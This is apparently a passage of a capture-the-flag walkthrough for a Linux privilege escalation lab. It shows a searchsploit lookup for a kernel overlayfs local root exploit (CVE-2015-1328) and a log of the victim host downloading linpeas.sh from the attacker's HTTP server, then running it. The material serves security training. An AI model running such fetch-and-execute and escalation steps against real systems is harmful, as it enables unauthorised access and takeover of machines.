 ```
                                                                                                                         | linux/dos/44301.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                    
┌──(kali㉿kali)-[~]
└─$  searchsploit -x 37292.c         
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)


https://www.exploit-db.com/exploits/37292

CVE-2015-1328
```

### Task 4 - Automated Enumeration Tools

- [inPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
>> Kali

python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.77.167 - - [16/Oct/2024 22:44:06] "GET /linpeas.sh HTTP/1.1" 200 -
127.0.0.1 - - [16/Oct/2024 22:44:59] code 404, message File not found
127.0.0.1 - - [16/Oct/2024 22:44:59] "GET /) HTTP/1.1" 404 -
127.0.0.1 - - [16/Oct/2024 22:44:59] code 404, message File not found
127.0.0.1 - - [16/Oct/2024 22:44:59] "GET /favicon.ico HTTP/1.1" 404 -



>> Victima

karen@wade7363:/tmp$ wget http://10.6.13.236/linpeas.sh

--2024-10-16 23:44:05--  http://10.6.13.236/linpeas.sh
Connecting to 10.6.13.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824745 (805K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 824,745      757KB/s   in 1.1s   

2024-10-16 23:44:07 (757 KB/s) - ‘linpeas.sh’ saved [824745/824745]

karen@wade7363:/tmp$ chmod +x linpeas.sh 

karen@wade7363:/tmp$ ./linpeas.sh 

```
